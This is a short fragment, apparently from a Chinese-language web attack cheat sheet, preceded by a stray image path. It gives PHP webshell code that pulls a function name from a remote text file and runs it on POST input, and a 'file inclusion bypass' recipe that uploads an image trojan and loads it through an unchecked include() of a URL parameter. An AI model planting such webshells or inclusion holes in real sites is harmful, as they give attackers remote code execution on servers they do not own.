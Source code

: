 ```
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?> 
```

### 文件包含绕过

```
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg 
```
